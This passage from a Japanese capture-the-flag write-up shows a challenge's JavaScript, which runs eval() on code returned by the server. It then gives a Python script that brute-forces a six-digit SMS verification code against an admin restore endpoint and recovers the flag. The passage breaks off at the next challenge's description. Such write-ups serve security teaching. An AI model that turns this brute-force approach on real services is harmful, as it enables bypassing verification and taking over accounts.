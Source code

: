 ```javascript
                    }
                }
                if (req.response.message) alert(req.response.message);
            }
            break;
        case 'adminAuth':
            req = api('admin.logIn', {"password": $("#password").val()}, true);
            if (req.status === 'success') {
                eval(req.response.code);
            }
            break;
    }
}
```

6 ケタの `secret code` を入力し、これが合っていれば何か `alert` が出るようです。ヒントによれば `secret code` は `260000` から `280000` の間ということなので総当たりしてみましょう。

```python
import json
import requests
URL = 'http://(省略)/api/admin.restore'
resp = json.loads(requests.post(URL, data={'hash': '', 'sms_code': ''}).text)
hash = resp['response']['new_hash']

for code in range(260000, 280000):
  if code % 1000 == 0:
    print('[+] debug:', hash, code)

  resp = json.loads(requests.post(URL, data={'hash': hash, 'sms_code': str(code)}).text)
  if not resp['response']['need_sms']:
    print(resp)
  hash = resp['response']['new_hash']
```

```
$ python3 solve.py
︙
{'status': 'success', 'response': {'need_sms': False, 'message': 'FLAG{bruTe_with_hash_f0rce}'}}
Traceback (most recent call last):
  File "solve.py", line 15, in <module>
    hash = resp['response']['new_hash']
KeyError: 'new_hash'
```

フラグが得られました。

```
FLAG{bruTe_with_hash_f0rce}
```

## [Web 1964] Car for Sherlock (48 solves)
> While chasing a serial killer Sherlock Holmes stopped a wrong person. Now, thanks to my « bot », you can buy a car for Sherlock, so he doesn’t have to run chasing taxis anymore.
> 
> https://vk.com/club187880935
